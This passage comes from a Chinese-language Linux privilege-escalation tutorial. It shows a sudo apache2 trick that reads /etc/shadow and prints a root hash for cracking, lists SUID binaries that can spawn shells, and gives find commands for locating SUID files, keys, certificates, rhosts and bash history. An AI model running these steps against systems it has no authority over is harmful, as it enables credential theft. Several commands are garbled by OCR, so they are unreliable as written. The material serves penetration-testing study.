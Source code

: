 但是使用它我们可以查看系统文件。

`sudo apache2 -f / etc / shadow`

输出是这样的：

`Syntax error on line 1 of /etc/shadow:Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration`

可悲的是没有shell。但是我们可以现在提取root哈希，然后在破解了哈希。

##  linux提权-Suid和Guid配置错误

**描述**

SUID代表设置的用户ID，是一种Linux功能，允许用户在指定用户的许可下执行文件。例如，Linux ping命令通常需要root权限才能打开网络套接字。通过将ping程序标记为SUID（所有者为root），只要低特权用户执行ping程序，便会以root特权执行ping。

SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。

当运行具有suid权限的二进制文件时，它将以其他用户身份运行，因此具有其他用户特权。它可以是root用户，也可以只是另一个用户。如果在程序中设置了suid，该位可以生成shell或以其他方式滥用，我们可以使用它来提升我们的特权。

**以下是一些可用于产生**SHELL**的程序：**

nmap

vim

less more

nano

cpmv

find

**查找**suid**和**guid**文件**

`find SUID find / -perm -u=s -type f 2>/dev/null Find GUID find / -perm -g=s -type f 2>/dev/null`

**其他命令**

| **命令**                                                     | **结果**                                                     |        |        |                        |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------ | ------ | ---------------------- |
| find / -perm -4000 -type f 2>/dev/null                       | 查找SUID文件                                                 |        |        |                        |
| find / -uid 0 -perm -4000 -type f 2>/dev/null                | 查找root拥有的SUID文件                                       |        |        |                        |
| find / -perm -2000 -type f 2>/dev/null                       | 查找SGID文件（粘性位）                                       |        |        |                        |
| find / ! -path “/proc/“ -perm -2 -type f -print 2>/dev/null  | 查找世界可写文件，不包括proc文件                             |        |        |                        |
| find / -type f ‘(‘ -name .cert -or -name .crt -or -name .pem -or -name .ca -or -name .p12 -or -name .cer -name .der ‘)’ ‘(‘ ‘(‘ -user support -perm -u=r ‘)’ -or ‘(‘ -group support -perm -g=r ‘)’ -or ‘(‘ -perm -o=r ‘)’ ‘)’ 2> /dev/null-or -name .cer -name *.der ‘)’ 2> /dev/null | 查找您可以阅读的密钥或证书                                   |        |        |                        |
| find /home –name *.rhosts -print 2>/dev/null                 | 查找rhost配置文件                                            |        |        |                        |
| find /etc -iname hosts.equiv -exec ls -la {} 2>/dev/null ; -exec cat {} 2>/dev/null ; | 查找hosts.equiv，列出权限并管理文件内容                      |        |        |                        |
| cat ~/.bash_history                                          | 显示当前用户历史记录                                         |        |        |                        |
| ls -la ~/.*_history                                          | 向当前用户分发各种历史文件                                   |        |        |                        |
| ls -la ~/.ssh/                                               | 检查当前用户的ssh文件                                        |        |        |                        |
| find /etc -maxdepth 1 -name ‘.conf’ -type f要么ls -la /etc/.conf | 在/ etc中列出配置文件（深度1，在第一个命令中修改maxdepth参数以对其进行更改） |        |        |                        |
| lsof                                                         | grep ‘/home/\                                                | /etc/\ | /opt/‘ | 显示可能有趣的打开文件 |
